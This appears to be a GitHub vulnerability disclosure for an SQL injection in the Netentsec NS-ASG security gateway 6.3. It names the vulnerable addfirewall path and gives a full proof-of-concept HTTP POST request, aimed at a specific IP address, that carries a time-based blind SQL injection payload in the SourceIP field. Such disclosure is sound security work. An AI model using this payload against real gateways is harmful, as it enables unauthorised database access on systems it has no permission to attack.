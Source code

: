 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /protocol/firewall/addfirewall.php

As shown in the figure, the value of the $FireWallTableArray array will be accepted, including the following elements, in which $SourceIP will be substituted into the sql statement in the figure below and executed without any restrictions.
<img width="601" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/11ef2010-7d58-4a6b-a7f3-35484d07c993">

Poc：

```
POST /protocol/index.php HTTP/1.1
Host: 1.85.53.53:443
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 231

jsoncontent={"protocolType":"addfirewall","messagecontent":["{\"FireWallId\":\"1\",\"SourceIP\":\"192.168.1.101'/**/and/**/(select*from(select(sleep(20)))a)='\",\"DestIP\":\"192.168.1.101*\",\"Protocol\":\"1*\",\"Port\":\"80*\"}"]}

```
<img width="614" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/ba060ec4-9c64-48bd-85a0-ae984f4eef42">
<img width="608" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/c3f51e14-059e-4142-bc15-c3e8aacad43b">

